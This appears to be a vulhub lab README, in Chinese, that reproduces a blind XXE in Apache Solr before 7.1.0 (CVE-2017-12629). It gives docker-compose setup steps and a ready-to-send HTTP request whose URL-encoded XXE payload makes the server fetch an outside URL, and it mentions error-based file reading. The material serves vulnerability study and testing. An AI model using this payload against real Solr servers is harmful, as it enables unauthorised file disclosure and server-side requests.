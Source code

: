 # Apache solr XML 实体注入漏洞（CVE-2017-12629）

漏洞原理与分析可以参考：

 - https://www.exploit-db.com/exploits/43009/
 - https://paper.seebug.org/425/

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。原理大致是文档通过Http利用XML加到一个搜索集合中。查询该集合也是通过 http收到一个XML/JSON响应来实现。此次7.1.0之前版本总共爆出两个漏洞：XML实体扩展漏洞（XXE）和远程命令执行漏洞（RCE），二者可以连接成利用链，编号均为CVE-2017-12629。

本环境仅测试XXE漏洞，RCE和利用链，可以在 https://github.com/vulhub/vulhub/tree/master/solr/CVE-2017-12629-RCE 中查看。

## 环境搭建

运行漏洞环境：

```
docker-compose up -d
```

命令执行成功后，需要等待一会，之后访问`http://your-ip:8983/`即可查看到Apache solr的管理页面，无需登录。

## 漏洞复现

由于返回包中不包含我们传入的XML中的信息，所以这是一个Blind XXE漏洞，我们发送如下数据包（自行修改其中的XXE Payload）：

```
GET /solr/demo/select?q=%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%0A%3C!DOCTYPE%20root%20%5B%0A%3C!ENTITY%20%25%20remote%20SYSTEM%20%22https%3A%2F%2Fbaidu.com%2F%22%3E%0A%25remote%3B%5D%3E%0A%3Croot%2F%3E&wt=xml&defType=xmlparser HTTP/1.1
Host: your-ip:8983
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

可接受到Java发来的请求：

![](1.png)

利用Error Based XXE读取文件：

![](2.png)
